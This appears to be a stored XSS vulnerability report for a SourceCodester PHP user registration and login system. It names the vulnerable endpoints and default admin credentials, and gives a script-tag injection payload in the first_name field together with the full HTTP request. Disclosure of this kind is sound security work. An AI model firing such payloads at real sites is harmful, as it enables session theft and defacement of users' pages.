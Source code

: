 ## User Registration and Login System by rems has xss (Stored XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html


username && password : admin/admin

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT

First:

```
POST /endpoint/add-user.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1/
Content-Length: 164
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT
```

Then access /home.php 

![Alt text](image-1.png)


Causes of vulnerabilities：

When adding a user, there is omission of filtering for dangerous XSS parameters. Consequently, when a user accesses /home.php, and home.php also lacks proper filtering for hazardous XSS parameters, it leads to XSS vulnerabilities.
